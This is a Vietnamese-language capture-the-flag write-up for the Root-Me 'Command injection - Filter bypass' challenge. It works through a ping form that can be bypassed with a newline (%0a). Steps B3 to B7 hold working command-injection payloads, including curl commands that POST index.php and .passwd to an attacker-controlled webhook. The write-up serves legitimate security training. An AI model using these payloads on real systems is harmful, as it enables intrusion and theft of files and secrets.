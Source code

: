 # Command Injection - Filter Bypass

**Tên challenge:** Ping Service v2

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Command-injection-Filter-bypass)

**Tác giả challenge:** sambecks

**Mục tiêu challenge:** Find a vulnerability in this service and exploit it. Some protections were added. The flag is on the index.php file.

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng Ping duy nhất:

![alt text](image.png)

**B2:** Ta thử điền google.com vào thì Website trả về kết quả như sau:

![alt text](image-1.png)

Đến đây thì ta có thể hình dung Website sẽ lấy input ta nhập vào rồi thực hiện cú pháp ping đến input đó.

**VD:** ping input_nguoidung

`Lúc này, câu hỏi đặt ra là: "Liệu Website có xử lý đúng cách input của người dùng không ? Và liệu ta có thể lợi dụng chức năng này để kéo dài câu lệnh và khiến cho hệ thống thực thi Command theo ý mình không ?"`

**B3:** Để tìm ra câu trả lời thì ta sẽ thử payload input như sau: `google.com; ls -la`

* <u>**Giải thích:**</u> google.com là để kết hợp với lệnh ping của hệ thống, sau đó ta sẽ thêm `; ls -la` để thử xem liệu Website có thực thi câu lệnh được kéo dài này của ta không ?
* Nếu như giả thuyết của ta đúng thì cú pháp của hệ thống lúc này sẽ như sau: `ping google.com; ls -la`

![alt text](image-2.png)

=> Xem ra Website đã filter input người dùng để hạn chế việc bị tấn công Command Injection.

Nhưng ngoài dấu `;` để nối dài câu lệnh Command trong Linux thì ta còn có thể dùng các dấu khác với chức năng tương tự như: `$`, `\`, `||`, `&&`, xuống dòng (`%0a`)

**B4:** Ta tiếp tục thử các cách trên thì chỉ duy nhất payload: `google.com%0als` là thành công

**Lưu ý:** Payload trên phải được chỉnh sửa qua gói tin trên Burp-suite vì khi thực hiện thẳng trên trình duyệt có thể sẽ không thành công.

![alt text](image-3.png)

=> Từ đây, ta có thể kết luận trang web đã thực thi Command của ta.

Tuy nhiên, kết quả trả về lại chỉ là `Ping OK`. Vậy thì làm sao ta mới đọc được file `index.php` mà đề bài yêu cầu.

* **Trả lời:** Do Website đã filter hết những ký tự có thể nối dài câu Command và chỉ chừa `%0a` cho nên rất khó đề ta có thể mò từng kết quả của lệnh. Cho nên, ta chỉ có thể đẩy file `index.php` ra ngoài Webhook của ta thông qua lệnh **curl**.

**B5:** Ta thử sử dụng lệnh `curl https://webhook_cua_ta` để xem thử Website có cho gói tin ra ngoài không thông qua payload `google.com%0acurl+https://webhook_cua_ta`

![alt text](image-4.png)

=> Vậy là ta có thể `curl` đến Webhook của ta.

**B6:** Ta chỉ cần dùng lệnh curl để lấy file index.php đưa lên Webhook của ta thông qua payload `google.com%0Acurl+-X+POST+-F+"file=@./index.php"+https://webhook_cua_ta`

* **Giải thích:** `./index.php` nghĩa là lấy file ở `index.php` ở thư mục hiện tại. Nếu không có dấu `.` thì lệnh sẽ tìm file ở thư mục `/` và có thể gây ra lỗi.

Sau khi gửi gói tin đi, trên Webhook của ta sẽ nhận được file index.php và khi tải file đó về mở ra thì ta biết được `Flag` đang nằm ở file `.passwd` cùng với thư mục chứa file `index.php`

**B7:** Ta tiếp tục dùng lệnh curl trên và thay đổi thành file `.passwd`: `google.com%0Acurl+-X+POST+-F+"file=@./.passwd"+https://webhook_cua_ta`
